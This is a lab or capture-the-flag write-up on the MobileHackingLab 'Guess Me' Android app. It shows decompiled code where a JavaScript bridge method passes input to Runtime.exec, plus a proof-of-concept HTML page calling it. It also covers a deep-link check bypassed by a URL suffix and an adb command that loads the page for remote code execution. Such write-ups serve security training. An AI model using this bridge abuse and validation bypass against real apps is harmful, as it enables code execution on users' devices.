



# Guess Me

What the app looks like.



Clicking on the button launches a WebView to a static page.


The WebView is of interest to us. Here's the decompiled code from the WebViewActivity class.

```java
...
    webSettings.setJavaScriptEnabled(true);
    WebView webView3 = this.webView;
    if (webView3 == null) {
        Intrinsics.throwUninitializedPropertyAccessException("webView");
        webView3 = null;
    }
    webView3.addJavascriptInterface(new MyJavaScriptInterface(), "AndroidBridge");
    WebView webView4 = this.webView;
    if (webView4 == null) {
        Intrinsics.throwUninitializedPropertyAccessException("webView");
        webView4 = null;
    }
    webView4.setWebViewClient(new WebViewClient());
    WebView webView5 = this.webView;
    if (webView5 == null) {
        Intrinsics.throwUninitializedPropertyAccessException("webView");
    } else {
        webView2 = webView5;
    }
    webView2.setWebChromeClient(new WebChromeClient());
    loadAssetIndex();
    handleDeepLink(getIntent());
}
```

Notably, an interface is set up to bridge JavaScript with Android code. [Android](https://developer.android.com/develop/ui/views/layout/webapps/webview#BindingJavaScript) has a warning about insecure usage of `addJavascriptInterface()`, essentially a malicious page can be used to run untrusted code on the device:

> Warning: Using addJavascriptInterface() lets JavaScript control your Android app. Although this can be useful, it can also be a dangerous security issue. When the HTML in the WebView is untrustworthy—for example, part or all of the HTML is provided by an unknown person or process—then an attacker can include HTML that executes your client-side code and possibly any code of the attacker's choosing. Therefore, don't use addJavascriptInterface() unless you wrote all of the HTML and JavaScript that appears in your WebView. Don't let the user navigate within your WebView to web pages that aren't your own. Instead, let the user's default browser application open foreign links. By default, the user's web browser opens all URL links, so this warning primarily applies if you handle page navigation yourself, as described in the following section.

The `getTime(String Time)` method can be abused by supplying any string which will then be exec-ed.

```java
@JavascriptInterface
public final String getTime(String Time) throws IOException {
    Intrinsics.checkNotNullParameter(Time, "Time");
    try {
        Process process = Runtime.getRuntime().exec(Time);
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader reader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        String text = TextStreamsKt.readText(reader);
        reader.close();
        return text;
    } catch (Exception e) {
        return "Error getting time";
    }
}
```

I amended the sample index.html in `assets` directory to build the PoC.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

<p id="result">Thank you for visiting</p>

<!-- Add a hyperlink with onclick event -->
<a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>

<script>
    function loadWebsite() {
       window.location.href = "https://www.mobilehackinglab.com/";
    }
    // Fetch and display the time when the page loads
    var result = AndroidBridge.getTime("id");
    var lines = result.split('\n');
    var timeVisited = lines[0];
    var fullMessage = "Output: " + timeVisited;
    document.getElementById('result').innerText = fullMessage;
</script>
</body>
</html>
```

Then, we need to launch the WebView using the `mhl://` deeplink. `isValidDeepLink` checks that the deeplink is of the format `mhl://mobilehackinglab` or `https://mobilehackinglab`, and the `url` parameter must end with `mobilehackinglab.com`.

```java
private final boolean isValidDeepLink(Uri uri) {
    if ((!Intrinsics.areEqual(uri.getScheme(), "mhl") && !Intrinsics.areEqual(uri.getScheme(), "https")) || !Intrinsics.areEqual(uri.getHost(), "mobilehackinglab")) {
        return false;
    }
    String queryParameter = uri.getQueryParameter("url");
    return queryParameter != null && StringsKt.endsWith$default(queryParameter, "mobilehackinglab.com", false, 2, (Object) null);
}
```

To load our page, we just need to end our URL with `?mobilehackinglab.com` to pass the check.
Host the PoC on a webserver and launch the WebView to get RCE.

```
adb shell am start -W -a android.intent.action.VIEW \
    -d "mhl://mobilehackinglab?url=http://127.0.0.1:8000/?mobilehackinglab.com" \
    com.mobilehackinglab.guessme
```

